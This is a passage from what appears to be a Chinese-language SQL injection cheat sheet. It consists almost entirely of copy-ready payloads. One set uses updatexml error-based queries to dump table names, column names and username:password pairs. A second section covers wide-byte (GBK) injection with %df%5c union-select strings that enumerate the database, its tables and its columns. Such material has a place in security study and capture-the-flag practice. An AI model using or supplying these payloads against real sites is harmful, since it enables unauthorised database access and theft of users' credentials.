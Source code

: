 2. 爆表

   ```
   ?id=1' or updatexml(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'), 1) or '
   
   'or updatexml(1, right(concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),25), 0) or '
   //right解决显示不全
   ```

3. 爆列名

   ```
   ?id=1' or updatexml(1, right(concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users替换表名'),'~'),25), 1) or '
   
   ?id=1' or updatexml(1, right(concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'),25), 0) or '
   ```
   
4. 爆值

   ```
   ?id=1' or updatexml(1, concat('~',(select group_concat(username,':',password) from users替换表名),'~'), 1) or '
   //有的时候，显示不全用not in，或用right()语句查询后面的部分
   
   ?id=1' or updatexml(1, concat('~',(select group_concat(username,':',password) from users替换表名 where username列名 not in ('上面查过的值','同左','同左')),'~'), 1) or '
   ```



### 宽字节注入

在GBK编码中，mysql会认为两个字符是一个汉字（在前一个ASCII码大于128的情况下）

使用条件：

1. 使用addslashes函数（并且开启GPC）
2. 数据库编码设置为GBK（php编码为 utf-8 或其他非GBK格式）
3. `%df'` 或者 `%df%27` 

爆库

```
%df%5c' union select 1,database()--+	
```

爆表

```
1%df%5c' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

爆字段

```
1%df%5c%27 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273(这里为users的16进制表示)--+
```
